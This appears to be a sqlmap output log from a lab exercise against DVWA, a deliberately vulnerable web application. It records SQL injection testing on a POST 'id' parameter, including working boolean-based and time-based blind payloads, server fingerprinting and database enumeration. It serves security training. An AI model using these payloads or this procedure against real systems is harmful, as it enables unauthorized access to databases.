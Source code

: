 ```txt
[13:41:08] [INFO] resuming back-end DBMS 'mysql' 
[13:41:08] [INFO] testing connection to the target URL
[13:41:08] [INFO] testing if the target URL content is stable
[13:41:08] [INFO] target URL content is stable
[13:41:08] [INFO] testing if POST parameter 'id' is dynamic
[13:41:09] [WARNING] POST parameter 'id' does not appear to be dynamic
[13:41:09] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
[13:41:09] [INFO] testing for SQL injection on POST parameter 'id'
[13:41:09] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:41:09] [INFO] POST parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User ID exists in the database.")
[13:41:09] [INFO] testing 'Generic inline queries'
[13:41:09] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:41:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:41:09] [WARNING] time-based comparison requires larger statistical model, please wait.................... (done)                                                                         
[13:41:19] [INFO] POST parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[13:41:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:41:25] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:41:25] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:41:25] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[13:41:29] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[13:41:29] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[13:41:30] [INFO] checking if the injection point on POST parameter 'id' is a false positive
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5484=5484&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3420 FROM (SELECT(SLEEP(5)))iTte)&Submit=Submit
---
[13:41:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:41:31] [INFO] fetching database names
[13:41:31] [INFO] fetching number of databases
[13:41:31] [INFO] resumed: 2
[13:41:31] [INFO] resumed: dvwa
[13:41:31] [INFO] resumed: information_schema
available databases [2]:
[*] dvwa
[*] information_schema
```